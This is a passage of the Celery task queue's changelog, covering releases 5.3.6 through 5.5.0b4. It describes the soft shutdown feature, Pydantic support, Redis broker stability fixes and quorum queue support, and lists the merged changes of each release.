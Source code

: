 .. _changelog:

================
 Change history
================

This document contains change notes for bugfix & new features
in the main branch & 5.5.x series, please see :ref:`whatsnew-5.5` for
an overview of what's new in Celery 5.5.

.. _version-5.5.0b4:

5.5.0b4
=======

:release-date: 2024-09-30
:release-by: Tomer Nosrati

Celery v5.5.0 Beta 4 is now available for testing.
Please help us test this version and report any issues.

Key Highlights
~~~~~~~~~~~~~~

Python 3.13 Initial Support
---------------------------

This release introduces the initial support for Python 3.13 with Celery.

After upgrading to this version, please share your feedback on the Python 3.13 support.

Previous Pre-release Highlights
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Soft Shutdown
-------------

The soft shutdown is a new mechanism in Celery that sits between the warm shutdown and the cold shutdown.
It sets a time limited "warm shutdown" period, during which the worker will continue to process tasks that are already running.
After the soft shutdown ends, the worker will initiate a graceful cold shutdown, stopping all tasks and exiting.

The soft shutdown is disabled by default, and can be enabled by setting the new configuration option :setting:`worker_soft_shutdown_timeout`.
If a worker is not running any task when the soft shutdown initiates, it will skip the warm shutdown period and proceed directly to the cold shutdown
unless the new configuration option :setting:`worker_enable_soft_shutdown_on_idle` is set to True. This is useful for workers
that are idle, waiting on ETA tasks to be executed that still want to enable the soft shutdown anyways.

The soft shutdown can replace the cold shutdown when using a broker with a visibility timeout mechanism, like :ref:`Redis <broker-redis>`
or :ref:`SQS <broker-sqs>`, to enable a more graceful cold shutdown procedure, allowing the worker enough time to re-queue tasks that were not
completed (e.g., ``Restoring 1 unacknowledged message(s)``) by resetting the visibility timeout of the unacknowledged messages just before
the worker exits completely.

After upgrading to this version, please share your feedback on the new Soft Shutdown mechanism.

Relevant Issues:
`#9213 <https://github.com/celery/celery/pull/9213>`_,
`#9231 <https://github.com/celery/celery/pull/9231>`_,
`#9238 <https://github.com/celery/celery/pull/9238>`_

- New :ref:`documentation <worker-stopping>` for each shutdown type.
- New :setting:`worker_soft_shutdown_timeout` configuration option.
- New :setting:`worker_enable_soft_shutdown_on_idle` configuration option.

REMAP_SIGTERM
-------------

The ``REMAP_SIGTERM`` "hidden feature" has been tested, :ref:`documented <worker-REMAP_SIGTERM>` and is now officially supported.
This feature allows users to remap the SIGTERM signal to SIGQUIT, to initiate a soft or a cold shutdown using :sig:`TERM`
instead of :sig:`QUIT`.

Pydantic Support
----------------

This release introduces support for Pydantic models in Celery tasks.
For more info, see the new pydantic example and PR `#9023 <https://github.com/celery/celery/pull/9023>`_ by @mathiasertl.

After upgrading to this version, please share your feedback on the new Pydantic support.

Redis Broker Stability Improvements
-----------------------------------
The root cause of the Redis broker instability issue has been `identified and resolved <https://github.com/celery/kombu/pull/2007>`_
in the v5.4.0 release of Kombu, which should resolve the disconnections bug and offer additional improvements.

After upgrading to this version, please share your feedback on the Redis broker stability.

Relevant Issues:
`#7276 <https://github.com/celery/celery/discussions/7276>`_,
`#8091 <https://github.com/celery/celery/discussions/8091>`_,
`#8030 <https://github.com/celery/celery/discussions/8030>`_,
`#8384 <https://github.com/celery/celery/discussions/8384>`_

Quorum Queues Initial Support
-----------------------------
This release introduces the initial support for Quorum Queues with Celery. 

See new configuration options for more details:

- :setting:`task_default_queue_type`
- :setting:`worker_detect_quorum_queues`

After upgrading to this version, please share your feedback on the Quorum Queues support.

Relevant Issues:
`#6067 <https://github.com/celery/celery/discussions/6067>`_,
`#9121 <https://github.com/celery/celery/discussions/9121>`_

What's Changed
~~~~~~~~~~~~~~

- Correct the error description in exception message when validate soft_time_limit (#9246)
- Update msgpack to 1.1.0 (#9249)
- chore(utils/time.py): rename `_is_ambigious` -> `_is_ambiguous` (#9248)
- Reduced Smoke Tests to min/max supported python (3.8/3.12) (#9252)
- Update pytest to 8.3.3 (#9253)
- Update elasticsearch requirement from <=8.15.0 to <=8.15.1 (#9255)
- Update mongodb without deprecated `[srv]` extra requirement (#9258)
- blacksmith.sh: Migrate workflows to Blacksmith (#9261)
- Fixes #9119: inject dispatch_uid for retry-wrapped receivers (#9247)
- Run all smoke tests CI jobs together (#9263)
- Improve documentation on visibility timeout (#9264)
- Bump pytest-celery to 1.1.2 (#9267)
- Added missing "app.conf.visibility_timeout" in smoke tests (#9266)
- Improved stability with t/smoke/tests/test_consumer.py (#9268)
- Improved Redis container stability in the smoke tests (#9271)
- Disabled EXHAUST_MEMORY tests in Smoke-tasks (#9272)
- Marked xfail for test_reducing_prefetch_count with Redis - flaky test (#9273)
- Fixed pypy unit tests random failures in the CI (#9275)
- Fixed more pypy unit tests random failures in the CI (#9278)
- Fix Redis container from aborting randomly (#9276)
- Run Integration & Smoke CI tests together after unit tests pass (#9280)
- Added "loglevel verbose" to Redis containers in smoke tests (#9282)
- Fixed Redis error in the smoke tests: "Possible SECURITY ATTACK detected" (#9284)
- Refactored the smoke tests github workflow (#9285)
- Increased --reruns 3->4 in smoke tests (#9286)
- Improve stability of smoke tests (CI and Local) (#9287)
- Fixed Smoke tests CI "test-case" labels (specific instead of general) (#9288)
- Use assert_log_exists instead of wait_for_log in worker smoke tests (#9290)
- Optimized t/smoke/tests/test_worker.py (#9291)
- Enable smoke tests dockers check before each test starts (#9292)
- Relaxed smoke tests flaky tests mechanism (#9293)
- Updated quorum queue detection to handle multiple broker instances (#9294)
- Non-lazy table creation for database backend (#9228)
- Pin pymongo to latest version 4.9 (#9297)
- Bump pymongo from 4.9 to 4.9.1 (#9298)
- Bump Kombu to v5.4.2 (#9304)
- Use rabbitmq:3 in stamping smoke tests (#9307)
- Bump pytest-celery to 1.1.3 (#9308)
- Added Python 3.13 Support (#9309)
- Add log when global qos is disabled (#9296)
- Added official release docs (whatsnew) for v5.5 (#9312)
- Enable Codespell autofix (#9313)
- Pydantic typehints: Fix optional, allow generics (#9319)
- Prepare for (pre) release: v5.5.0b4 (#9322)

.. _version-5.5.0b3:

5.5.0b3
=======

:release-date: 2024-09-08
:release-by: Tomer Nosrati

Celery v5.5.0 Beta 3 is now available for testing.
Please help us test this version and report any issues.

Key Highlights
~~~~~~~~~~~~~~

Soft Shutdown
-------------

The soft shutdown is a new mechanism in Celery that sits between the warm shutdown and the cold shutdown.
It sets a time limited "warm shutdown" period, during which the worker will continue to process tasks that are already running.
After the soft shutdown ends, the worker will initiate a graceful cold shutdown, stopping all tasks and exiting.

The soft shutdown is disabled by default, and can be enabled by setting the new configuration option :setting:`worker_soft_shutdown_timeout`.
If a worker is not running any task when the soft shutdown initiates, it will skip the warm shutdown period and proceed directly to the cold shutdown
unless the new configuration option :setting:`worker_enable_soft_shutdown_on_idle` is set to True. This is useful for workers
that are idle, waiting on ETA tasks to be executed that still want to enable the soft shutdown anyways.

The soft shutdown can replace the cold shutdown when using a broker with a visibility timeout mechanism, like :ref:`Redis <broker-redis>`
or :ref:`SQS <broker-sqs>`, to enable a more graceful cold shutdown procedure, allowing the worker enough time to re-queue tasks that were not
completed (e.g., ``Restoring 1 unacknowledged message(s)``) by resetting the visibility timeout of the unacknowledged messages just before
the worker exits completely.

After upgrading to this version, please share your feedback on the new Soft Shutdown mechanism.

Relevant Issues:
`#9213 <https://github.com/celery/celery/pull/9213>`_,
`#9231 <https://github.com/celery/celery/pull/9231>`_,
`#9238 <https://github.com/celery/celery/pull/9238>`_

- New :ref:`documentation <worker-stopping>` for each shutdown type.
- New :setting:`worker_soft_shutdown_timeout` configuration option.
- New :setting:`worker_enable_soft_shutdown_on_idle` configuration option.

REMAP_SIGTERM
-------------

The ``REMAP_SIGTERM`` "hidden feature" has been tested, :ref:`documented <worker-REMAP_SIGTERM>` and is now officially supported.
This feature allows users to remap the SIGTERM signal to SIGQUIT, to initiate a soft or a cold shutdown using :sig:`TERM`
instead of :sig:`QUIT`.

Previous Pre-release Highlights
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Pydantic Support
----------------

This release introduces support for Pydantic models in Celery tasks.
For more info, see the new pydantic example and PR `#9023 <https://github.com/celery/celery/pull/9023>`_ by @mathiasertl.

After upgrading to this version, please share your feedback on the new Pydantic support.

Redis Broker Stability Improvements
-----------------------------------
The root cause of the Redis broker instability issue has been `identified and resolved <https://github.com/celery/kombu/pull/2007>`_
in the v5.4.0 release of Kombu, which should resolve the disconnections bug and offer additional improvements.

After upgrading to this version, please share your feedback on the Redis broker stability.

Relevant Issues:
`#7276 <https://github.com/celery/celery/discussions/7276>`_,
`#8091 <https://github.com/celery/celery/discussions/8091>`_,
`#8030 <https://github.com/celery/celery/discussions/8030>`_,
`#8384 <https://github.com/celery/celery/discussions/8384>`_

Quorum Queues Initial Support
-----------------------------
This release introduces the initial support for Quorum Queues with Celery. 

See new configuration options for more details:

- :setting:`task_default_queue_type`
- :setting:`worker_detect_quorum_queues`

After upgrading to this version, please share your feedback on the Quorum Queues support.

Relevant Issues:
`#6067 <https://github.com/celery/celery/discussions/6067>`_,
`#9121 <https://github.com/celery/celery/discussions/9121>`_

What's Changed
~~~~~~~~~~~~~~

- Added SQS (localstack) broker to canvas smoke tests (#9179)
- Pin elastic-transport to <= latest version 8.15.0 (#9182)
- Update elasticsearch requirement from <=8.14.0 to <=8.15.0 (#9186)
- Improve formatting (#9188)
- Add basic helm chart for celery (#9181)
- Update kafka.rst (#9194)
- Update pytest-order to 1.3.0 (#9198)
- Update mypy to 1.11.2 (#9206)
- All added to routes (#9204)
- Fix typos discovered by codespell (#9212)
- Use tzdata extras with zoneinfo backports (#8286)
- Use `docker compose` in Contributing's doc build section (#9219)
- Failing test for issue #9119 (#9215)
- Fix date_done timezone issue (#8385)
- CI Fixes to smoke tests (#9223)
- Fix: passes current request context when pushing to request_stack (#9208)
- Fix broken link in the Using RabbitMQ docs page (#9226)
- Added Soft Shutdown Mechanism (#9213)
- Added worker_enable_soft_shutdown_on_idle (#9231)
- Bump cryptography from 43.0.0 to 43.0.1 (#9233)
- Added docs regarding the relevancy of soft shutdown and ETA tasks (#9238)
- Show broker_connection_retry_on_startup warning only if it evaluates as False (#9227)
- Fixed docker-docs CI failure (#9240)
- Added docker cleanup auto-fixture to improve smoke tests stability (#9243)
- print is not thread-safe, so should not be used in signal handler (#9222)
- Prepare for (pre) release: v5.5.0b3 (#9244)

.. _version-5.5.0b2:

5.5.0b2
=======

:release-date: 2024-08-06
:release-by: Tomer Nosrati

Celery v5.5.0 Beta 2 is now available for testing.
Please help us test this version and report any issues.

Key Highlights
~~~~~~~~~~~~~~

Pydantic Support
----------------

This release introduces support for Pydantic models in Celery tasks.
For more info, see the new pydantic example and PR `#9023 <https://github.com/celery/celery/pull/9023>`_ by @mathiasertl.

After upgrading to this version, please share your feedback on the new Pydantic support.

Previous Beta Highlights
~~~~~~~~~~~~~~~~~~~~~~~~

Redis Broker Stability Improvements
-----------------------------------
The root cause of the Redis broker instability issue has been `identified and resolved <https://github.com/celery/kombu/pull/2007>`_
in the v5.4.0 release of Kombu, which should resolve the disconnections bug and offer additional improvements.

After upgrading to this version, please share your feedback on the Redis broker stability.

Relevant Issues:
`#7276 <https://github.com/celery/celery/discussions/7276>`_,
`#8091 <https://github.com/celery/celery/discussions/8091>`_,
`#8030 <https://github.com/celery/celery/discussions/8030>`_,
`#8384 <https://github.com/celery/celery/discussions/8384>`_

Quorum Queues Initial Support
-----------------------------
This release introduces the initial support for Quorum Queues with Celery. 

See new configuration options for more details:

- :setting:`task_default_queue_type`
- :setting:`worker_detect_quorum_queues`

After upgrading to this version, please share your feedback on the Quorum Queues support.

Relevant Issues:
`#6067 <https://github.com/celery/celery/discussions/6067>`_,
`#9121 <https://github.com/celery/celery/discussions/9121>`_

What's Changed
~~~~~~~~~~~~~~

- Bump pytest from 8.3.1 to 8.3.2 (#9153)
- Remove setuptools deprecated test command from setup.py (#9159)
- Pin pre-commit to latest version 3.8.0 from Python 3.9 (#9156)
- Bump mypy from 1.11.0 to 1.11.1 (#9164)
- Change "docker-compose" to "docker compose" in Makefile (#9169)
- update python versions and docker compose (#9171)
- Add support for Pydantic model validation/serialization (fixes #8751) (#9023)
- Allow local dynamodb to be installed on another host than localhost (#8965)
- Terminate job implementation for gevent concurrency backend (#9083)
- Bump Kombu to v5.4.0 (#9177)
- Add check for soft_time_limit and time_limit values (#9173)
- Prepare for (pre) release: v5.5.0b2 (#9178)

.. _version-5.5.0b1:

5.5.0b1
=======

:release-date: 2024-07-24
:release-by: Tomer Nosrati

Celery v5.5.0 Beta 1 is now available for testing.
Please help us test this version and report any issues.

Key Highlights
~~~~~~~~~~~~~~

Redis Broker Stability Improvements
-----------------------------------
The root cause of the Redis broker instability issue has been `identified and resolved <https://github.com/celery/kombu/pull/2007>`_
in the release-candidate for Kombu v5.4.0. This beta release has been upgraded to use the new
Kombu RC version, which should resolve the disconnections bug and offer additional improvements.

After upgrading to this version, please share your feedback on the Redis broker stability.

Relevant Issues:
`#7276 <https://github.com/celery/celery/discussions/7276>`_,
`#8091 <https://github.com/celery/celery/discussions/8091>`_,
`#8030 <https://github.com/celery/celery/discussions/8030>`_,
`#8384 <https://github.com/celery/celery/discussions/8384>`_

Quorum Queues Initial Support
-----------------------------
This release introduces the initial support for Quorum Queues with Celery. 

See new configuration options for more details:

- :setting:`task_default_queue_type`
- :setting:`worker_detect_quorum_queues`

After upgrading to this version, please share your feedback on the Quorum Queues support.

Relevant Issues:
`#6067 <https://github.com/celery/celery/discussions/6067>`_,
`#9121 <https://github.com/celery/celery/discussions/9121>`_

What's Changed
~~~~~~~~~~~~~~

- (docs): use correct version celery v.5.4.x (#8975)
- Update mypy to 1.10.0 (#8977)
- Limit pymongo<4.7 when Python <= 3.10 due to breaking changes in 4.7 (#8988)
- Bump pytest from 8.1.1 to 8.2.0 (#8987)
- Update README to Include FastAPI in Framework Integration Section (#8978)
- Clarify return values of ..._on_commit methods (#8984)
- add kafka broker docs (#8935)
- Limit pymongo<4.7 regardless of Python version (#8999)
- Update pymongo[srv] requirement from <4.7,>=4.0.2 to >=4.0.2,<4.8 (#9000)
- Update elasticsearch requirement from <=8.13.0 to <=8.13.1 (#9004)
- security: SecureSerializer: support generic low-level serializers (#8982)
- don't kill if pid same as file (#8997) (#8998)
- Update cryptography to 42.0.6 (#9005)
- Bump cryptography from 42.0.6 to 42.0.7 (#9009)
- Added -vv to unit, integration and smoke tests (#9014)
- SecuritySerializer: ensure pack separator will not be conflicted with serialized fields (#9010)
- Update sphinx-click to 5.2.2 (#9025)
- Bump sphinx-click from 5.2.2 to 6.0.0 (#9029)
- Fix a typo to display the help message in first-steps-with-django (#9036)
- Pinned requests to v2.31.0 due to docker-py bug #3256 (#9039)
- Fix certificate validity check (#9037)
- Revert "Pinned requests to v2.31.0 due to docker-py bug #3256" (#9043)
- Bump pytest from 8.2.0 to 8.2.1 (#9035)
- Update elasticsearch requirement from <=8.13.1 to <=8.13.2 (#9045)
- Fix detection of custom task set as class attribute with Django (#9038)
- Update elastic-transport requirement from <=8.13.0 to <=8.13.1 (#9050)
- Bump pycouchdb from 1.14.2 to 1.16.0 (#9052)
- Update pytest to 8.2.2 (#9060)
- Bump cryptography from 42.0.7 to 42.0.8 (#9061)
- Update elasticsearch requirement from <=8.13.2 to <=8.14.0 (#9069)
- [enhance feature] Crontab schedule: allow using month names (#9068)
- Enhance tox environment: [testenv:clean] (#9072)
- Clarify docs about Reserve one task at a time (#9073)
- GCS docs fixes (#9075)
- Use hub.remove_writer instead of hub.remove for write fds (#4185) (#9055)
- Class method to process crontab string (#9079)
- Fixed smoke tests env bug when using integration tasks that rely on Redis (#9090)
- Bugfix - a task will run multiple times when chaining chains with groups (#9021)
- Bump mypy from 1.10.0 to 1.10.1 (#9096)
- Don't add a separator to global_keyprefix if it already has one (#9080)
- Update pymongo[srv] requirement from <4.8,>=4.0.2 to >=4.0.2,<4.9 (#9111)
- Added missing import in examples for Django (#9099)
- Bump Kombu to v5.4.0rc1 (#9117)
- Removed skipping Redis in t/smoke/tests/test_consumer.py tests (#9118)
- Update pytest-subtests to 0.13.0 (#9120)
- Increased smoke tests CI timeout (#9122)
- Bump Kombu to v5.4.0rc2 (#9127)
- Update zstandard to 0.23.0 (#9129)
- Update pytest-subtests to 0.13.1 (#9130)
- Changed retry to tenacity in smoke tests (#9133)
- Bump mypy from 1.10.1 to 1.11.0 (#9135)
- Update cryptography to 43.0.0 (#9138)
- Update pytest to 8.3.1 (#9137)
- Added support for Quorum Queues (#9121)
- Bump Kombu to v5.4.0rc3 (#9139)
- Cleanup in Changelog.rst (#9141)
- Update Django docs for CELERY_CACHE_BACKEND (#9143)
- Added missing docs to previous releases (#9144)
- Fixed a few documentation build warnings (#9145)
- docs(README): link invalid (#9148)
- Prepare for (pre) release: v5.5.0b1 (#9146)

.. _version-5.4.0:

5.4.0
=====

:release-date: 2024-04-17
:release-by: Tomer Nosrati

Celery v5.4.0 and v5.3.x have consistently focused on enhancing the overall QA, both internally and externally.
This effort led to the new pytest-celery v1.0.0 release, developed concurrently with v5.3.0 & v5.4.0.

This release introduces two significant QA enhancements:

- **Smoke Tests**: A new layer of automatic tests has been added to Celery's standard CI. These tests are designed to handle production scenarios and complex conditions efficiently. While new contributions will not be halted due to the lack of smoke tests, we will request smoke tests for advanced changes where appropriate.
- `Standalone Bug Report Script <https://docs.celeryq.dev/projects/pytest-celery/en/latest/userguide/celery-bug-report.html>`_: The new pytest-celery plugin now allows for encapsulating a complete Celery dockerized setup within a single pytest script. Incorporating these into new bug reports will enable us to reproduce reported bugs deterministically, potentially speeding up the resolution process.

Contrary to the positive developments above, there have been numerous reports about issues with the Redis broker malfunctioning
upon restarts and disconnections. Our initial attempts to resolve this were not successful (#8796).
With our enhanced QA capabilities, we are now prepared to address the core issue with Redis (as a broker) again.

The rest of the changes for this release are grouped below, with the changes from the latest release candidate listed at the end.

Changes
~~~~~~~
- Add a Task class specialised for Django (#8491)
- Add Google Cloud Storage (GCS) backend (#8868)
- Added documentation to the smoke tests infra (#8970)
- Added a checklist item for using pytest-celery in a bug report (#8971)
- Bugfix: Missing id on chain (#8798)
- Bugfix: Worker not consuming tasks after Redis broker restart (#8796)
- Catch UnicodeDecodeError when opening corrupt beat-schedule.db (#8806)
- chore(ci): Enhance CI with `workflow_dispatch` for targeted debugging and testing (#8826)
- Doc: Enhance "Testing with Celery" section (#8955)
- Docfix: pip install celery[sqs] -> pip install "celery[sqs]" (#8829)
- Enable efficient `chord` when using dynamicdb as backend store (#8783)
- feat(daemon): allows daemonization options to be fetched from app settings (#8553)
- Fix DeprecationWarning: datetime.datetime.utcnow() (#8726)
- Fix recursive result parents on group in middle of chain (#8903)
- Fix typos and grammar (#8915)
- Fixed version documentation tag from #8553 in configuration.rst (#8802)
- Hotfix: Smoke tests didn't allow customizing the worker's command arguments, now it does (#8937)
- Make custom remote control commands available in CLI (#8489)
- Print safe_say() to stdout for non-error flows (#8919)
- Support moto 5.0 (#8838)
- Update contributing guide to use ssh upstream url (#8881)
- Update optimizing.rst (#8945)
- Updated concurrency docs page. (#8753)

Dependencies Updates
~~~~~~~~~~~~~~~~~~~~
- Bump actions/setup-python from 4 to 5 (#8701)
- Bump codecov/codecov-action from 3 to 4 (#8831)
- Bump isort from 5.12.0 to 5.13.2 (#8772)
- Bump msgpack from 1.0.7 to 1.0.8 (#8885)
- Bump mypy from 1.8.0 to 1.9.0 (#8898)
- Bump pre-commit to 3.6.1 (#8839)
- Bump pre-commit/action from 3.0.0 to 3.0.1 (#8835)
- Bump pytest from 8.0.2 to 8.1.1 (#8901)
- Bump pytest-celery to v1.0.0 (#8962)
- Bump pytest-cov to 5.0.0 (#8924)
- Bump pytest-order from 1.2.0 to 1.2.1 (#8941)
- Bump pytest-subtests from 0.11.0 to 0.12.1 (#8896)
- Bump pytest-timeout from 2.2.0 to 2.3.1 (#8894)
- Bump python-memcached from 1.59 to 1.61 (#8776)
- Bump sphinx-click from 4.4.0 to 5.1.0 (#8774)
- Update cryptography to 42.0.5 (#8869)
- Update elastic-transport requirement from <=8.12.0 to <=8.13.0 (#8933)
- Update elasticsearch requirement from <=8.12.1 to <=8.13.0 (#8934)
- Upgraded Sphinx from v5.3.0 to v7.x.x (#8803)

Changes since 5.4.0rc2
~~~~~~~~~~~~~~~~~~~~~~~
- Update elastic-transport requirement from <=8.12.0 to <=8.13.0 (#8933)
- Update elasticsearch requirement from <=8.12.1 to <=8.13.0 (#8934)
- Hotfix: Smoke tests didn't allow customizing the worker's command arguments, now it does (#8937)
- Bump pytest-celery to 1.0.0rc3 (#8946)
- Update optimizing.rst (#8945)
- Doc: Enhance "Testing with Celery" section (#8955)
- Bump pytest-celery to v1.0.0 (#8962)
- Bump pytest-order from 1.2.0 to 1.2.1 (#8941)
- Added documentation to the smoke tests infra (#8970)
- Added a checklist item for using pytest-celery in a bug report (#8971)
- Added changelog for v5.4.0 (#8973)
- Bump version: 5.4.0rc2 → 5.4.0 (#8974)

.. _version-5.4.0rc2:

5.4.0rc2
========

:release-date: 2024-03-27
:release-by: Tomer Nosrati

- feat(daemon): allows daemonization options to be fetched from app settings (#8553)
- Fixed version documentation tag from #8553 in configuration.rst (#8802)
- Upgraded Sphinx from v5.3.0 to v7.x.x (#8803)
- Update elasticsearch requirement from <=8.11.1 to <=8.12.0 (#8810)
- Update elastic-transport requirement from <=8.11.0 to <=8.12.0 (#8811)
- Update cryptography to 42.0.0 (#8814)
- Catch UnicodeDecodeError when opening corrupt beat-schedule.db (#8806)
- Update cryptography to 42.0.1 (#8817)
- Limit moto to <5.0.0 until the breaking issues are fixed (#8820)
- Enable efficient `chord` when using dynamicdb as backend store (#8783)
- Add a Task class specialised for Django (#8491)
- Sync kombu versions in requirements and setup.cfg (#8825)
- chore(ci): Enhance CI with `workflow_dispatch` for targeted debugging and testing (#8826)
- Update cryptography to 42.0.2 (#8827)
- Docfix: pip install celery[sqs] -> pip install "celery[sqs]" (#8829)
- Bump pre-commit/action from 3.0.0 to 3.0.1 (#8835)
- Support moto 5.0 (#8838)
- Another fix for `link_error` signatures being `dict`s instead of `Signature` s (#8841)
- Bump codecov/codecov-action from 3 to 4 (#8831)
- Upgrade from pytest-celery v1.0.0b1 -> v1.0.0b2 (#8843)
- Bump pytest from 7.4.4 to 8.0.0 (#8823)
- Update pre-commit to 3.6.1 (#8839)
- Update cryptography to 42.0.3 (#8854)
- Bump pytest from 8.0.0 to 8.0.1 (#8855)
- Update cryptography to 42.0.4 (#8864)
- Update pytest to 8.0.2 (#8870)
- Update cryptography to 42.0.5 (#8869)
- Update elasticsearch requirement from <=8.12.0 to <=8.12.1 (#8867)
- Eliminate consecutive chords generated by group | task upgrade (#8663)
- Make custom remote control commands available in CLI (#8489)
- Add Google Cloud Storage (GCS) backend (#8868)
- Bump msgpack from 1.0.7 to 1.0.8 (#8885)
- Update pytest to 8.1.0 (#8886)
- Bump pytest-timeout from 2.2.0 to 2.3.1 (#8894)
- Bump pytest-subtests from 0.11.0 to 0.12.1 (#8896)
- Bump mypy from 1.8.0 to 1.9.0 (#8898)
- Update pytest to 8.1.1 (#8901)
- Update contributing guide to use ssh upstream url (#8881)
- Fix recursive result parents on group in middle of chain (#8903)
- Bump pytest-celery to 1.0.0b4 (#8899)
- Adjusted smoke tests CI time limit (#8907)
- Update pytest-rerunfailures to 14.0 (#8910)
- Use the "all" extra for pytest-celery (#8911)
- Fix typos and grammar (#8915)
- Bump pytest-celery to 1.0.0rc1 (#8918)
- Print safe_say() to stdout for non-error flows (#8919)
- Update pytest-cov to 5.0.0 (#8924)
- Bump pytest-celery to 1.0.0rc2 (#8928)

.. _version-5.4.0rc1:

5.4.0rc1
========

:release-date: 2024-01-17 7:00 P.M GMT+2
:release-by: Tomer Nosrati

Celery v5.4 continues our effort to provide improved stability in production
environments. The release candidate version is available for testing.
The official release is planned for March-April 2024.

- New Config: worker_enable_prefetch_count_reduction (#8581)
- Added "Serverless" section to Redis doc (redis.rst) (#8640)
- Upstash's Celery example repo link fix (#8665)
- Update mypy version (#8679)
- Update cryptography dependency to 41.0.7 (#8690)
- Add type annotations to celery/utils/nodenames.py (#8667)
- Issue 3426. Adding myself to the contributors. (#8696)
- Bump actions/setup-python from 4 to 5 (#8701)
- Fixed bug where chord.link_error() throws an exception on a dict type errback object (#8702)
- Bump github/codeql-action from 2 to 3 (#8725)
- Fixed multiprocessing integration tests not running on Mac (#8727)
- Added make docker-docs (#8729)
- Fix DeprecationWarning: datetime.datetime.utcnow() (#8726)
- Remove `new` adjective in docs (#8743)
- add type annotation to celery/utils/sysinfo.py (#8747)
- add type annotation to celery/utils/iso8601.py (#8750)
- Change type annotation to celery/utils/iso8601.py (#8752)
- Update test deps (#8754)
- Mark flaky: test_asyncresult_get_cancels_subscription() (#8757)
- change _read_as_base64 (b64encode returns bytes) on celery/utils/term.py (#8759)
- Replace string concatenation with fstring on celery/utils/term.py (#8760)
- Add type annotation to celery/utils/term.py (#8755)
- Skipping test_tasks::test_task_accepted (#8761)
- Updated concurrency docs page. (#8753)
- Changed pyup -> dependabot for updating dependencies (#8764)
- Bump isort from 5.12.0 to 5.13.2 (#8772)
- Update elasticsearch requirement from <=8.11.0 to <=8.11.1 (#8775)
- Bump sphinx-click from 4.4.0 to 5.1.0 (#8774)
- Bump python-memcached from 1.59 to 1.61 (#8776)
- Update elastic-transport requirement from <=8.10.0 to <=8.11.0 (#8780)
- python-memcached==1.61 -> python-memcached>=1.61 (#8787)
- Remove usage of utcnow (#8791)
- Smoke Tests (#8793)
- Moved smoke tests to their own workflow (#8797)
- Bugfix: Worker not consuming tasks after Redis broker restart (#8796)
- Bugfix: Missing id on chain (#8798)

.. _version-5.3.6:

5.3.6
=====

:release-date: 2023-11-22  9:15 P.M GMT+6
:release-by: Asif Saif Uddin

This release is focused mainly to fix AWS SQS new feature comatibility issue and old regressions. 
The code changes are mostly fix for regressions. More details can be found below.

- Increased docker-build CI job timeout from 30m -> 60m (#8635)
- Incredibly minor spelling fix. (#8649)
- Fix non-zero exit code when receiving remote shutdown (#8650)
- Update task.py get_custom_headers missing 'compression' key (#8633)
- Update kombu>=5.3.4 to fix SQS request compatibility with boto JSON serializer (#8646)
- test requirements version update (#8655)
- Update elasticsearch version (#8656)
- Propagates more ImportErrors during autodiscovery (#8632)

.. _version-5.3.5:

5.3.5
=====

